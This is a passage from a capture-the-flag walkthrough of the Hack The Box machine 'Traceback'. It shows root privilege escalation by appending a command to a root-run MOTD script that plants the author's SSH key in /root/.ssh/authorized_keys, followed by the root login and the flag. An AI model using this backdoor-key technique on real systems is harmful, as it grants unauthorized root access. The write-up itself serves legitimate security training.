 The file `00-header`seem to have been edited already by `Xh4H` when he defaced the site and set up his web shell. MOTD banners are just bash scripts which are executed each time a user logs into the machine, so I decided to add a line of my own to see if I could escalate privileges since the files and process that ran them were owned by `root`.  

### Getting a root shell

According to the `ps` output, every 30 secs a cronjob copies the backups from `/var/backups/.update-motd.d/` to `/etc/update-motd.d/`. This was the window I had to edit the file and get it to execute to initiate my exploit before the backup wiped my progress. I decided to go for broke and simply use the same privilege escalation method I had already been using. 

```bash
sysadmin@traceback:/etc/update-motd.d$ echo 'echo "ssh-rsa AAAA<my_public_key> zweilos@kali" >> /root/.ssh/authorized_keys' >> 00-header
```

I copied the same `echo` command I had used to escalate privileges to the previous two users, and echoed it into the MOTD file `00-header`. I set it to copy my public SSH key to the `authorized_keys` file, this time in the `/root/.ssh/` folder. 

In order to execute my command, I needed to run the MOTD program. Since this program is automatically run upon login, I simply logged out, connected back to the `sysadmin` user through SSH, then logged out again, then logged in as `root`.

```text
zweilos@kali:~/htb/traceback$ ssh root@10.10.10.181
#################################
-------- OWNED BY XH4H  ---------
- I guess stuff could have been configured better ^^ -
#################################

Welcome to Xh4H land 

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Fri Jan 24 03:43:29 2020
root@traceback:~# whoami && hostname
root
traceback
```

### Root.txt

Of course I couldn't forget to collect my hard-earned proof!

```text
root@traceback:~# cat root.txt 
459b10823b6b0c485f082026477dcfa7
```

Thanks to [`Xh4H`](https://www.hackthebox.eu/home/users/profile/21439) for creating a machine where I could learn about how web shells work, and about tracing back the steps that an attacker took to compromise a system.

If you like this content and would like to see more, please consider [buying me a coffee](https://www.buymeacoffee.com/zweilosec)!


